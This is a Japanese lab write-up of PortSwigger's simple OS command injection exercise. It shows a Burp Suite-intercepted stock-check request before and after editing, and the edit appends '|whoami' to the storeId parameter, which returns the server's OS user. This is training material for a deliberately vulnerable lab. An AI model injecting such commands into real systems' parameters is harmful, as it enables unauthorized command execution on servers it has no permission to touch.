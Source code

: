 # OS コマンドインジェクション

OS コマンドインジェクション
以下のハッキングラボで OS コマンドインジェクションを試します。
https://portswigger.net/web-security/os-command-injection/lab-simple

- 1. Burp Suite を起動し、Proxy タブからブラウザうを起動します
- 2. 上記 URL にアクセスします
- 3. 任意の商品ページにアクセスします
     ![1](https://github.com/pea-sys/Til/assets/49807271/a79b8a2a-4f9b-425a-98f4-2a734a889c44)

- 4. Intercept on にします。
- 5. 在庫チェックボタンを押下
     ![2](https://github.com/pea-sys/Til/assets/49807271/bce3dd1e-a1da-4354-8ca8-229b07e9b633)
- 6. リクエストを書き換えます

[変更前]

```
POST /product/stock HTTP/2
Host: 0a64008e03fd2fef811e57a900d6007a.web-security-academy.net
Cookie: session=1w0g1mzKh13PM3B4Cz52NlOEoYDOSMyi
Content-Length: 21
Sec-Ch-Ua:
Sec-Ch-Ua-Platform: ""
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a64008e03fd2fef811e57a900d6007a.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a64008e03fd2fef811e57a900d6007a.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8

productId=1&storeId=1
```

[変更後]

```
POST /product/stock HTTP/2
Host: 0a64008e03fd2fef811e57a900d6007a.web-security-academy.net
Cookie: session=1w0g1mzKh13PM3B4Cz52NlOEoYDOSMyi
Content-Length: 21
Sec-Ch-Ua:
Sec-Ch-Ua-Platform: ""
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a64008e03fd2fef811e57a900d6007a.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a64008e03fd2fef811e57a900d6007a.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8

productId=1&storeId=1|whoami
```

- 7. Intercept off にすると、OS へのログインユーザーが得られます

```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 13

peter-wUEBMX
```
